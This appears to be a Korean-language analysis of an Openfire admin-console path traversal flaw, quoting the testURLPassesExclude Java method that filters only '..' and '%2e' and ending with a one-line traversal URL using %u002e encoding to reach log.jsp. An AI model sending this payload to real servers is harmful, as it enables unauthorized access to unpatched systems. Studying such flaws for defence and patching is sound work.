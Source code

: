 자이브 소프트웨어(Jive Software)의 실시간 협업 서버
- XMPP(Extensible Messaging and Presence Protocol) 프로토콜을 기반으로 하는 오픈 소스 실시간 협업 서버

- 취약한 버전의 Openfire 관리 콘솔 페이지에서 설정 환경을 통한 경로 탐색이 가능한 취약점

> 해당 취약점은 2023년 패치 보안 업데이트를 발표하였으며, 해당 업데이트를 적용하지 않은 서버를 대상으로 공격 수행

> 최근 국가 배후 해킹조직에서 해당 취약점을 악용한 정황이 포착
> - 해당 취약점은 "testURLPassesExclude" 메소드에서 URL에 대한 입력값 검증이 부족하여 발생

> doFilter()는 HTTP 요청을 가로채 입력값 검증, 권한 검증 등을 수행하는 것으로 판단됨

> testURLPassesExclude 메소드는 doFilter()에 의해 호출

> testURLPassesExclude는 URL에서 ".." 또는 "%2e (디코딩 .)" 문자열만 필터링하며 그 외 추가적인 필터링은 존재하지 않음

```
public static boolean testURLPassesExclude(String url, String exclude) {
        // If the exclude rule includes a "?" character, the url must exactly match the exclude rule.
        // If the exclude rule does not contain the "?" character, we chop off everything starting at the first "?"
        // in the URL and then the resulting url must exactly match the exclude rule. If the exclude ends with a "*"
        // character then the URL is allowed if it exactly matches everything before the * and there are no ".."
        // characters after the "*". All data in the URL before
        if (exclude.endsWith("*")) {
            if (url.startsWith(exclude.substring(0, exclude.length()-1))) {
                // Now make suxre that there are no ".." characters in the rest of the URL.
                if (!url.contains("..") && !url.toLowerCase().contains("%2e")) {
                    return true;
                }
            }
        }
        else if (exclude.contains("?")) {
            if (url.equals(exclude)) {
                return true;
            }
        }
        else {
            int paramIndex = url.indexOf("?");
            if (paramIndex != -1) {
                url = url.substring(0, paramIndex);
            }
            if (url.equals(exclude)) {
                return true;
            }
        }
        return false;
    }
```
```
[Target IP]/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```
